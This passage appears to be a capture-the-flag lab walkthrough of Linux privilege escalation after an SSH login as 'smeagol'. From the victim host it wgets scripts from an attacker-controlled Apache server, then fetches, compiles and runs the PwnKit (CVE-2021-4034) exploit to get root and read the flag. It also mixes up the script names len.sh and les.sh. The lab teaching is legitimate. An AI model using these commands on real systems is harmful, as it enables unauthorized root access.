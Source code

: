     ssh smeagol@192.168.1.28 -p 22

And yes! We have a terminal. Now it's just a matter os **Privilege Escalation.** 

First, let's do some inside recon and enumeration.

> Note: You can find all the scripts and tools I am using in the files
> sections.

OK, let's start by getting some useful tools from our machine. **In your Kali machine:**

 1. Open a terminal and start Apache with `sudo service apache2 start`.
 2. Head to `/var/www/html`.
 3. Download the following script: `len.sh`. This script will tell us possible ways to exploit the machine.
 4. Once you have it, paste it in the `/var/www/html` folder.
 
 **In the victim's machine:**

 3. `pwd` command to make sure you are at `/home/smeagol` directory
 4. Now, let's download some stuff. Use  ` wget http://192.168.1.23/les.sh` command to download the script.
 5. Give mod permissions with `chmod +x les.sh`
 6. Run it with `./les.sh`

Now we know this machine is vulnerable to many exploits but we will focus in one: 

    [+] [CVE-2021-4034] PwnKit
    
       Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
       Exposure: probable
       Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
       Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

Download the exploit file and let's keep going. 

Now you have to copy the `PwnKit.c` file into the `/var/www/html` folder to download it from the victim machine with `wget` command as before. Once you have it, justgive mod permissions:

    chmod 777 PwnKit.c

Compile it:

    gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
 
Give permissions to the exec file:

    chmod 777 PwnKit

And... EXPLOIT!

    ./PwnKit

Check you are now root with the command:

    id

And you should get back:

    uid=0(root) gid=0(root) groups=0(root),1000(smeagol)

There you go, now we are root! And if we head to the `root`directory, we can find a `Flag.txt`. That is the proof we got root access. 
